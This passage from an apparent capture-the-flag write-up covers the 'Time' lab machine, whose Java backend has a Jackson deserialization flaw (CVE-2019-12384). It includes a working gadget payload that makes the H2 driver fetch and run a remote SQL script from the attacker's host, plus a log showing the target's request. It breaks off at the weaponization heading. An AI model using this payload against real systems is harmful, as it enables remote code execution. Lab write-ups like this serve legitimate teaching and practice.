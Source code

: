 I verified the site is running php by loading , and getting the same page.`index.php`

I can enter some basic JSON like and it will beautify:`{"foo": "bar", "baz": 1}`

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210209150723897.png) 

Giving the same data in Validate returns an error:

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20210209150825757.png) 

The full error is:

>     Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
>     

So the backend is using Java to validate the JSON, specifically [this package](https://github.com/FasterXML/jackson-databind), Jackson.

## Shell as pericles

### CVE-2019-12384

#### Background

There were a bunch of CVEs for Jackson. In fact, the hardest part of this box was finding the right one that worked here. Eventually I found [this post](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) which contained this payload as a test:

    ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://localhost:8000/inject.sql'"}]
    

This is taking advantage of a JSON deserialization vulnerability. In this proof of concept, they are using the H2 database driver (which should be present in most Java deployments that use a database, which is most). This driver can take an SQL script to run, which is typically used benignly to support database migrations.

#### Test

I’ll update the URL to point to my VM:

    ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8/test.sql'"}]
    

On submitting to Time, I get a request at my local HTTP server:

    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.214 - - [09/Feb/2021 19:23:33] code 404, message File not found
    10.10.10.214 - - [09/Feb/2021 19:23:33] "GET /test.sql HTTP/1.1" 4
    

It worked!

#### Weaponize - POC
